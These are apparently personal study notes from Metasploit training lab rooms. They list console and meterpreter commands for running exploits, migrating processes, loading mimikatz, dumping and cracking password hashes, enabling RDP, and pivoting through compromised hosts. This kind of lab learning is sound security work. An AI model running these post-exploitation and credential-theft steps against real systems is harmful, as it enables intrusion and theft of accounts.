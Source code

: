 # MetaSploit

## Commands for ice room

### Initializing
~~~
msfdb init (initialises database)
msfdb reinit (delete and reinitialize the database)
db_status (status of database)
~~~

### Rock 'em to the Core 
~~~
search (search for modules)
use (use a module)
info (info on a module)
connect (netcat like, quick connections)
set (sets value of variable)
setg (sets global variables)
get (view a single variable)
spool (set console output to a save file)
save (saves previously set values)
unset (changing a value to null)
~~~

### Modules for Ever Occasion 

Modules

- exploit
Holds all the exploit code.

- payload
Contains payload code.

- auxilliary 
Module used in scanning and verfication.

- post
Module allows to loot and piviot after gaining access.  

- nop
Buffer overflow and ROP (Return Oriented Programming) attack modules 

- load
Loads modules that are not loaded by default

### Move that shell! 

~~~
db_nmap (runs nmap in metasploit)
vulns (shows vulnerabilities that metasploit has found, seems different from nmap script=vulns)
set LHOST (set IP of listening machine)
set RHOST (set IP of target)
expolit (runs exploit)
run -j (runs as a job) 
~~~

### We're in, now what?

Commands when we have meterpreter shell
~~~
ps (lists processes)
migrate <PID> (moves to another process)
getuid (lists current user)
sysinfo (more information out the the system)
getprivs (gets the privileges of the user)
load kiwi (loads mimikatz)
upload (uploads files to computer)
run post/windows/gather/checkvm (checks if the target is a vm)
run post/multi/recon/local_exploit_suggester (checks for exploits to elevate privileges)
run post/windows/manage/enable_rdp (enables remote desktop)
~~~
 
### Makin' Cisco Proud 

~~~
run autoroute (creates a new route through a meterpreter shell to piviot deeper into network)
run autoroute -s <sub-net IP> -n <subnet mask IP> (creates route to sub-net).
use auxiliary/server/socks_proxy (starts socks5 server)
proxychains (run outside of metaspolit, run commands through socks5 server if config /etc/proxychains.conf 
~~~

### Useful commands

~~~
jobs -v (list all jobs)
bg/ctrl + z (backgrounds current session)
sessions -i* (lists all the background sessions) 
shell (gets a normal shell, ctrl + d returns to meterpreter shell)
~~~

## Blue room

Shell to Meterpreter Upgrade

~~~
sessions -u <session wishing to updgrade>
use post/multi/manage/shell_to_meterpreter
~~~

- Just because we are system doesn't mean our process is. Once we are upgraded we need to migrate to another process.

- hashdump passwords

~~~
hashdump (run in metasploit)
john -w=/usr/share/wordlists/rockyou.txt --format=NT <file with hashes> (For this room I needed to speicify the has type)
~~~
